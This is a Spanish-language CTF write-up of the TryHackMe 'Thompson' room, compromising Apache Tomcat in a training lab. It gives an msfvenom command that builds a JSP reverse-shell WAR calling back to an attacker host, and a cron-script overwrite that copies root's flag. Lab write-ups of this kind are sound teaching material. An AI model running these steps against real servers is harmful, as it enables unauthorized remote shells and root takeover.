 ```yaml
---
layout: post
title: Thompson
date: 2025-01-03 21:00:00
description: CTF sencillo con escalamiento a nivel root
tags: ctf pentesting msfvenom web_application_archive .war apache tomcat directory_transversal
categories: Seguridad Informática
thumbnail: assets/img/thompson.png
featured: false
---
```


# **Datos Generales**
- **URL**: https://tryhackme.com/r/room/bsidesgtthompson
- **Dificultad**: Fácil
- **Flags**: Usuario y Root
- **Aprendizaje**: Explotación con metasploit, crontab  


# **Conocimientos iniciales**
### Apache Tomcat y archivos .war
Las versiones anteriores a 6.024/5.5.29 de tomcat son vulnerables a directory transversal, lo que permite ejecutar un payload desde metasploit, entre otras técnicas de explotación. 

Información ampliada en el siguiente enlace: <a href=" https://www.tenable.com/plugins/nessus/44314" target="_blank">Apache Tomcat WAR Multiple Vulnerabilities</a>

### crontab
Crontab ejecuta tareas automatizadas en segundo plano, desde una lista alojada en **etc/crontab** o en otra ubicación determinada por el administrador.

Información ampliada en el siguiente enlace: <a href="https://www.hackingarticles.in/crontab-command/" target="_blank">Crontab</a>

# **El CTF** 
### Reconocimiento
Al iniciar el proceso de **reconocimiento** es común realizar la enumeración de puertos, el scaneo de directorios y de subdominios, entre otras pruebas según presente la aplicación web obejtivo.
En el caso de este ctf se obtuvo resultados de ínteres mediante el scaneo de puertos. La herramienta utilizada para ello fue  nmap. El resultado muestra que el puerto 8080 se encuentra habilitado para desplegar el servicio **Apache Tomcat**  

Ingresando por el puerto 8080 se observa que se despliega un menu de inicio de sesión, el cual al oprimir en **cancel** despliega una pagina de **error** con información importante.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-01.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-02.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
<div class="caption">
    Inicio de sesión
</div>

## Primera Flag

Realizando el login con las credenciales obtenidas en la página de error accedemos al siguiente panel

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-03.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

La página permite "subir" e implementar archivos .war en el servidor

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-04.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Como se expuso al inicio de este tutorial, es posible realizar un ataque de tipo directory transversal mediante el uso de archivos war. Para ello necesitaremos **msfvenom** para generar el payload. Como podemos ver a continuación

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

Se puede obtener el payload desde: ```https://book.hacktricks.wiki/es/generic-hacking/reverse-shells/msfvenom.html?highlight=war#war```

Generamos el payload y ponemos un servidor en escucha en el puerto 4444

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-07.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Una vez subido el archivo reverse_shell.war ejecutamos el payload desde el panel de administración

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-08.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Observamos que fue posible la conexión a través del payload. A continuación realizamos la búsqueda de la flag en los archivos del servidor.

<div class="row mt-3 justify-content-center">
    <div class="col-10 col-sm-8 col-md-6 mt-3 mt-md-0">
        <div class="img-container">
            {% include figure.liquid path="assets/img/ctf-thompson-09.png" class="img-fluid rounded z-depth-1" zoomable=true %}
        </div>
    </div>
</div>

## Escalamiento de privilegios
### Flag de root

Notamos que el archivo **id.sh** se encuentra enlazado al archivo **test.txt**, es posible que se ejecute mediante crontab

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-10.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-11.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Utilizamos el comando **echo** para copiar 
```
echo 'cp /root/root.txt /home/jack/root.txt' > id.sh
```

Al ejecutarse este comando, se copiará el archivo root.txt ubicado en el directorio /root/ al directorio /home/jack/.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-13.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/ctf-thompson-14.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>

Esperamos un momento a que se ejecute la tarea en crontab, y accedemos root.txt obteniendo la segunda flag

<div class="row mt-3 justify-content-center">
    <div class="col-10 col-sm-8 col-md-6 mt-3 mt-md-0">
        <div class="img-container">
            {% include figure.liquid path="assets/img/ctf-thompson-12.png" class="img-fluid rounded z-depth-1" zoomable=true %}
        </div>
    </div>
</div>
